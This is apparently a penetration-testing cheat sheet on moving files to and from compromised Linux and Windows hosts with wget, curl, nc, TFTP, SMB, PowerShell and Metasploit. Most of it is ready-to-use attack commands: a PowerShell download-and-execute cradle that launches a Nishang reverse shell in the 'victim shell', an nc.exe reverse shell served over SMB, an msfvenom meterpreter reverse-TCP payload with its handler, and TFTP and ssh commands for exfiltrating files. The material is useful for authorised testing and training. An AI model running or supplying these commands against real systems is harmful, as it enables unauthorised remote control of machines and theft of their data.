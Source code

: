 - [Linux](#Linux)
  - [wget](#wget)
  - [curl](#curl)
  - [nc](#nc)
  - [tftp](#tftp)
  - [axel)(#axel)
  - [php](#php)
  - [scp](#scp)
  - [ssh](#ssh)
  
- [Windwos](#windows)
  - [FTP](#FTP)
  - [TFTP](#TFTP)
  - [SMB](#SMB)
  - [Nishang](#Nishang)
  - [Netcat](Netcat)
  - [Meterpreter](Meterpreter)
  - [Impacket](Impacket)

## Linux 

### wget
```
wget [url/with/file] -p [local/path]
```
### curl
```
curl -O [url/with/file]
```
### nc
```
nc -lvp [port] > sending.file
```
### tftp

- service atftpd start

### axel
```
transfer file from a FTP or HTTP server through multiple connections.
axel -n 10 --output=axel-test100Mb.db http://speedtest.ftp.otenet.gr/files/test100Mb.db

```

```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
### php

### scp 

### ssh

#### puts file to the attacking machine
ssh root@[ip] "cat > proof.txt < proof.txt"

#### Get files from the attacking machine
ssh root@[ip] "cat exploit" > "exploit

## Windows 

### HTTP Download file with with PowerShell
#### (new-object System.Net.WebClient).DownloadFile('http://[ip]/file.exe','D:\User\name\Desktop\file.exe')

### FTP 
#### In linux machine install python-pyftpdlib
```
- apt-get install python-pyftpdlib
- python -m pyftdlib -p 21
If you want to grant the anonymous user write access, add the -w flag as well.

On windows
- ftp [linux_ip]
- binary
- get file.exe
```
### TFTP
#### In linux machine strtign the server 
- service atftpd start
```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
- On windows
- tftp -i [linux_ip] GET file.exe

Exfiltrating files via TFTP is simple as well with the PUT action. The Metasploit server saves them in /tmp by default
- tftp -i linux-ip PUT file.txt

### SMB
- In linux machine, download smbserver.py from impacket project https://github.com/SecureAuthCorp/impacket
```
python smbserver.py ROPNOP /root/shells
```
- In windows machine
```
- dir \\[linux_ip]\ROPNOP
- copy \\[linux_ip]\ROPNOP\file.exe
```

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
  
#### Netcat
- smbserver.py  
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

- create directory (for example test)
cp nc.exe to test

- run smbserver
python smbserver.py test smb

- run local nc
nc -lnvp 443

-In the victim shell
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]

#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp

#### Impacket 
- https://github.com/SecureAuthCorp/impacket
